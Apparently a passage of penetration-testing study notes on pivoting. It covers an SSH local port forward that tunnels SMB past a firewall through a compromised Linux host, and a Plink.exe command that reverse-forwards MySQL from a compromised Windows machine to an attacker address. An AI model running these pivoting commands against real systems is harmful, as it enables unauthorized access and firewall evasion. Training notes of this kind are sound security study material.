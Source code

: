 
Rather than moving needed tools to the machine then attempt to interact w/ the shares on the server,  
we'll want to interact with this new target from our attack machine, pivoting thorugh this compromised Linux client. 

Gives us all the tool access we need:  
```bash
ssh -N -L [bind_address:]port:host:hostport [username@address]
```
	**-N** - Do not execute a remote command (useful when just forwarding ports)  
	**-L** - Specifies local host port that'll be forwarded to a remote address & port  
  
  
Given our scenario: Forward port 445 (NetBIOS) on attack to port 445 on Server2016  
	Allows any file sharing queries directed at our attack maching will be forwarded to the Server target.  
	Even though port 445 is blocked by the FW, it's tunneled through an SSH session on 22 (which is allowed)
  
![[ssh-tunnel.png]]
  
As Server2016 no longer supports SMBv1, change samba config to set minimum version to SMBv2:  
```bash
sudo vim /etc/samba/smb.conf  
	...  
	min protocol = SMB2  
	[EOF]  
  
sudo /etc/init.d/smbd restart
```
 

### Plink.exe

Scenario:  
	We've gained access to a Windows10 machine during our assessment through a vuln in Sync Breeze & have obtained a SYSTEM-level reverse shell.  
	During enum (**netstat -anpb TCP**) we discover MySQL running on 3306.  
	Transfer [plink.exe](plink.exe.md) to the target  
  
Ex:  
```bash
cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
```
.
	**-ssh** - Connect via SSH  
	**-l** - As kali user  
	**-pw** - With password ‘ilak’  
	**-R** - Create a remote port forward of 10.11.0.4's port 1234 to the MySQL port (3306) on the Window's target (127.0.0.1)  
  
  
**cmd.exe /c echo y** - As first time plink connects to a host, it'll attempt to cache the host key in the registry.  
	Likely we won't have the necessary interactivity w/in our remote shell, hence this addition.  
  